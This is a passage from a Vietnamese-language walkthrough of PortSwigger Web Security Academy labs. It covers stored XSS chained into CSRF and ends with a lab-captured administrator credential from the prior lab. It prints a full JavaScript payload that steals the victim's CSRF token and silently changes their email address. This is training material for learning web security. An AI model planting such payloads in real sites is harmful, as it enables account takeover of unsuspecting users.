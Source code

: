 - Gửi nó trong phần comment và ngồi đợi respond:

![image](https://hackmd.io/_uploads/BJkfVVwSa.png)

`administrator:h1jq58u4wxcpfpdv8mih`
![image](https://hackmd.io/_uploads/rkXU4VPST.png)


## Lab 22: [Exploiting XSS](https://portswigger.net/web-security/cross-site-scripting/exploiting) to perform CSRF

![image](https://hackmd.io/_uploads/HJdjVNDST.png)

- Trang web này có chứa lỗi stored XSS ở chức năng comment, để solve lab mình cần khai thác lỗ hổng để thực hiện tấn công CSRF nhằm đổi email của người xem blog post đó
- Username và password được cung cấp là: wiener:peter
- Đăng nhập vào với user, passwd mình thấy có 1 đoạn mã csrf token:`3vUCiScR0m169ADnn6omiXCSfyccGXMB`
![image](https://hackmd.io/_uploads/SykluVwrp.png)
- Khi đăng nhập vào thì có 1 chức năng đổi email. Nhưng hiện tại trang web đang bảo mình đổi email tại comment nên tạm thời mình sẽ bỏ qua chức năng này và chuyển đến phần comment của bài viết. Test thử với đoạn mã alert đơn giản

![image](https://hackmd.io/_uploads/S108O4vrp.png)

- Thế là đã xác thực được lỗ hổng xss tại phần comment. Đọc solution của đề bài thì mình có payload:

```
<script>
	var x = new XMLHttpRequest;
	x.open('GET', '/my-account');
	x.onload = function () {
		var csrfToken = this.responseText.match(/name="csrf" value="(.*)">/)[1];
		fetch('/my-account/change-email', {
		method: 'POST',
		mode: 'no-cors',
		headers:{
		'Content-Type': 'application/x-www-form-urlencoded'
		},    
		body: new URLSearchParams({
			'email': 'test@gmail.com',
			'csrf': csrfToken
		})
	});
	}
	x.send();
</script>
```

![image](https://hackmd.io/_uploads/HyLDoVDrp.png)

